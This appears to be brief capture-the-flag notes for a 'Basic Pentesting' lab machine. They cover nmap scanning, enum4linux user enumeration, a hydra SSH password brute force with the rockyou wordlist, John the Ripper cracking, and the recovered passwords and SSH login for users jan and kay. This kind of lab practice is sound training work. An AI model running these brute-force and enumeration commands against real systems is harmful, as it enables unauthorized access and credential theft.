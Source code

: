 # Basic Pentesting

IP = 10.10.90.140

# Scanning

Ports:
nmap -sC -sV -oN nmap/basicpentesting 10.10.90.140

22

80

139

445

8009

8080


Users:

/opt/enum4linux/enum4linux.pl -a 10.10.90.140 | tee enum4linux.log

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

Password:

hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.90.140

jan: armando

JohnTheRipper:

kay: beeswax

WebServer:

Apache/2.4.18

OS:

Linux


Connection:

ssh jan@10.10.90.140
armando

Exploration:

jan

    jan@basic2:~$ ls -la
    total 12
    drwxr-xr-x 2 root root 4096 Apr 23  2018 .
    drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
    -rw------- 1 root jan    47 Apr 23  2018 .lesshst
    